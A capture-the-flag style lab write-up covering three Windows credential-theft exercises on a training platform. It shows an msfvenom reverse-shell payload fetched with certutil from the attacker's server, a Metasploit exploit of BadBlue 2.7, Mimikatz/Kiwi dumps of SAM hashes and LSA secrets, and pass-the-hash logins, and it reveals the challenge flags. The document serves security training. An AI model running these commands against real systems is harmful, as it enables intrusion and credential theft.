








# 🔬Credentials Dumping

## Lab 1 - Unattended Files

>  🔬 [Unattended Installation](https://attackdefense.com/challengedetails?cid=2106)
>
>  - Target IP: `10.4.19.9`
>  - Searching for password in Windows Configuration files
>  - Both Kali Machine and Attacker/Victim Windows machine are provided

- On the Attacker machine check the current user


### Exploitation

- From the Kali machine, generate a `meterpreter` x64 payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > payload.exe
```

- Set up a web server to host the payload

```bash
python -m SimpleHTTPServer 80
```

- Download the payload file on the target system using the `certutil` tool in `cmd`

```bash
cd Desktop
certutil -urlcache -f http://10.10.4.2/payload.exe payload.exe
```

- Stop the http server and start `msfconsole` on the Kali machine

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST 10.10.4.2
run
```

- Execute the `payload.exe` on the Win target system and check the reverse shell on Kali 


- Manually search for the **`unattend.xml`** file, it should be inside
  - `C:\\Windows\\Panther`

```bash
cd C:\\Windows\\Panther
dir
download unattend.xml
```


- In a new terminal tab

```bash
cat unattend.xml
```


### Get Access

- `administrator` user configured base64 password is **`QWRtaW5AMTIz`**
  - Save it to a new file
  - Decode it using the `base64` tool

```bash
nano password.txt
# paste the password, save and exit the file

base64 -d password.txt 
	Admin@123root
```


- Test the `administrator`:`Admin@123root` credentials with the `psexec` tool

```
psexec.py administrator@10.4.19.9
```


```bash
cd C:\Users\Administrator\Desktop
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>


`097ab83639dce0ab3429cb0349493f60`


</details>

------

## Lab 2 - Mimikatz

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340)
>
> - Target IP: `10.2.29.32`
> - Dumping passwords hashes with **mimikatz**
> - Both Kali Machine and Attacker/Victim Windows machine are provided

### Enumeration & Exploitation

```bash
nmap 10.2.29.32
```

```bash
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

```bash
nmap -sV -p 80 10.2.29.32
```

```bash
80/tcp open  http    BadBlue httpd 2.7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- 📌 Exploit **BadBlue 2.7** with `metasploit`

```bash
msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.29.32
run
```

### Privilege Escalation

```bash
sysinfo
getuid
pgrep lsass
migrate 768
```



### Hash Dumping - Kiwi

- In the `meterpreter` session load **Kiwi**

```bash
load kiwi
help
```





- Retrieve all credentials

```bash
creds_all
```

```bash
msv credentials
===============
Username       Domain         NTLM                              SHA1
--------       ------         ----                              ----
Administrator  ATTACKDEFENSE  e3c61a68f1b89ee6c8ba9507378dc88d  fa62275e30d286c09d30d8fece82664eb34323ef

wdigest credentials
===================
Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
ATTACKDEFENSE$  WORKGROUP      (null)
Administrator   ATTACKDEFENSE  (null)
# clear-text passwords are not stored on Win2016

kerberos credentials
====================
Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
Administrator   ATTACKDEFENSE  (null)
attackdefense$  WORKGROUP      (null)
```

- Dump LSA SAM (NTLM hashes for all users)

```bash
lsa_dump_sam
```

```bash
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b
```



- Dump LSA secrets. This could provide with clear-text passwords

```
lsa_dump_secrets
```

```bash
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2
```


### Hash Dumping - Mimikatz.exe

```bash
cd C:\\
mkdir Temp
cd Temp
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
```

- Run `mimikatz.exe`

```bash
mimikatz.exe
privilege::debug
	Privilege '20' OK
# I have the required privileges for hash extraction from memory
```

- Dump the cache of the `lsass` process

```bash
lsadump::sam
```



```bash
lsadump::secrets
```



- Display logon passwords, when stored in clear-text
  - in this case clear-text password are disabled - `(null)`

```
sekurlsa::logonPasswords
```




<details>
<summary>Reveal Flag - Administrator NTLM Hash is: 🚩</summary>


`e3c61a68f1b89ee6c8ba9507378dc88d`

</details>


<details>
<summary>Reveal Flag - Student NTLM Hash is: 🚩</summary>


`bd4ca1fbe028f3c5066467a7f6a73b0b`

</details>


<details>
<summary>Reveal Flag - SysKey is: 🚩</summary>


`377af0de68bdc918d22c57a263d38326`

</details>

------

## Lab 3 - Pass-the-hash

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340) - same lab as Lab 2
>
> - Target IP changed: `10.2.29.32`
> - Use **Pass-the-hash** attack
> - Both Kali Machine and Attacker/Victim Windows machine are provided

### Enumeration & Exploitation

```bash
nmap 10.2.23.202
```

```bash
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
```

```bash
nmap -sV -p 80 10.2.23.202
```

```bash
80/tcp open  http    BadBlue httpd 2.7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- 📌 Exploit **BadBlue 2.7** with `metasploit`

```bash
msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.23.202
run
```

### Privilege Escalation

```bash
pgrep lsass
migrate 772
getuid
	Server username: NT AUTHORITY\SYSTEM
```

### Hash Dumping - Kiwi

```bash
load kiwi
```

```bash
lsa_dump_sam
```

```bash
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b
```

> 📌 Save users NTLM hashes in a text file for future use
>
> `Administrator: e3c61a68f1b89ee6c8ba9507378dc88d`
>
> `student: bd4ca1fbe028f3c5066467a7f6a73b0b`

### Pass-the-hash PSExec

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

- LM+NTLM hash is necessary, so copy the string:

`aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d`

- **Use PSExec to login with `Administrator` user and its password hashes**

```bash
background
search psexec
use exploit/windows/smb/psexec
options
sessions
# change Payload options
set LPORT 4422
set RHOSTS 10.2.23.202
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
# set target Native\ upload
exploit
```

```bash
getuid
sysinfo
```



### Crackmapexec

```bash
crackmapexec smb 10.2.23.202 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "whoami"
```


------

